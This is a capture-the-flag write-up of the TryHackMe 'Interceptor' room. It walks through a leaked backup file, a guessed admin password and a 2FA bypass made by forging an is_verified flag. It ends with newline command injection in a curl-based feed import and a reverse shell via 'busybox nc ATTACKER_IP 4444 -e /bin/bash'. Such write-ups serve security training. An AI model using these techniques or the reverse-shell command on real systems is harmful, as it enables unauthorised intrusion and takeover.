









# Interceptor

**Difficulty:** 🟡 Medium · **Room:** [TryHackMe ↗](https://tryhackme.com/room/interceptor)

**MediaHub** appears to be a normal internal portal used by journalists to manage content. Everything seems protected behind a login and verification system, but the real story lies in how the application communicates with its backend APIs.

Your task is to assume the role of an attacker and closely observe traffic between the browser and the server. Using your proxy skills, intercept the requests, analyse how the application processes them, and experiment with modifying the data being sent.

If you understand the flow well enough, a small change in the request might be all it takes to bypass the intended controls. Fire up your proxy, intercept the traffic, and see if you can manipulate the requests to take control of the system.

---

## Reconnaissance

To map out the attack surface, I ran an `nmap` scan first:


SSH was running on port 22, HTTP on 80, and probably DNS on 53. I followed up with a more detailed scan:


Everything here looked normal, except the `PHPSESSID` cookie was missing the `HttpOnly` flag. A `feroxbuster` scan found an interesting endpoint, `login.php.bak`:



I navigated to `http://MACHINE_IP/login.php.bak` and downloaded the file, which contained critical information: the admin's email and the password policy:



The email was `admin@mediahub.thm`, and the password format was `MediaHub` followed by a year. After a couple of tries, I guessed the correct password (hint: the year was greater than 2000).

---

## Initial Access

After submitting the correct credentials, I was presented with OTP authentication:


The two-factor authentication code was 6 digits long. I submitted a random code, captured the request with Burp Suite, and sent it to Repeater. The response contained something interesting:



The response included an `is_verified` parameter. I tried sending a request with that parameter set to `true`, and it worked — I bypassed two-factor authentication entirely:



I captured another request, modified it the same way, and this time authenticated fully as admin, landing on `/dashboard.php`:



---

## Remote Code Execution

The admin panel had a change-profile-picture feature. Only PNG, JPG, or GIF files were accepted — I tried uploading a `.php` file and a few other extensions, but none of them worked. The panel also had an import-feed feature: it fetched a given URL and returned the raw output. I tested it by submitting a placeholder URL, `https://example.com/feed.xml`, and the output looked like raw console output:



It used `curl` under the hood, which suggested command injection (CI) might be possible. The page's source code revealed that it filtered out characters used to chain shell commands, like `;`, `&`, and `|`:

```javascript
const url = url1.replace(/[;&|]/g, '');
```

I captured the request and appended a newline followed by `whoami`, and it worked:



I sent another request, this time with a reverse shell payload:

```bash
busybox nc ATTACKER_IP 4444 -e /bin/bash
```

I caught a connection:



And obtained the second flag:



---

## Kill Chain

This box came down to two separate logic flaws in how the application handled trust. A leaked backup file exposed the admin's email and a predictable password format, which was enough to guess valid login credentials outright. That got past the first authentication step, but two-factor authentication stood in the way — until intercepting the OTP response showed an `is_verified` flag that the client could simply set to `true`, skipping verification entirely and landing full admin access.

From inside the admin panel, a feed-import feature that shelled out to `curl` was protected by a character blacklist that never accounted for newlines, so a newline-separated command slipped straight through and gave a reverse shell.

`Leaked backup file → guessed admin password → forged is_verified flag (2FA bypass) → admin dashboard → command injection in feed import → reverse shell`

- **Initial Access:** Leaked `login.php.bak` → guessable admin password → login attempt requiring OTP
- **Authentication Bypass:** Client-controllable `is_verified` parameter → full admin session, first flag
- **Remote Code Execution:** Incomplete character blacklist in the feed-import feature → command injection via `curl` → reverse shell, second flag

> Thanks for reading!